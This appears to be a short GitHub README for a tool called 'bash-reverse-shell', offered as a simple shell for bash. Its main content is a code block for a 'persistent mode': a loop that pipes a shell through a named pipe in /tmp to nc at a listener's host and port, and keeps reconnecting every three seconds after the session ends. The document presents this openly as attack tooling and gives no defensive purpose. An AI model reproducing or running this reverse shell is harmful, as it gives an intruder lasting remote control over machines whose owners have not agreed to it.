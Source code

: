 # bash-reverse-shell
simple shell for bash

# persistent mode
this script has persistent mode, when user done with the shell and exit.. it will still trying to connect to the target listener port

```
        while true # just loop, nothing special
        do
                cat /tmp/zeusPipe|$0 shell 2>&1|nc $LHOST $LPORT >/tmp/zeusPipe # trying to connect to the listener
                sleep 3 # sleep 3 second when listener not open the port or after user exit the shell
        done
```

# no idle mode :(
there's no idle mode currently 
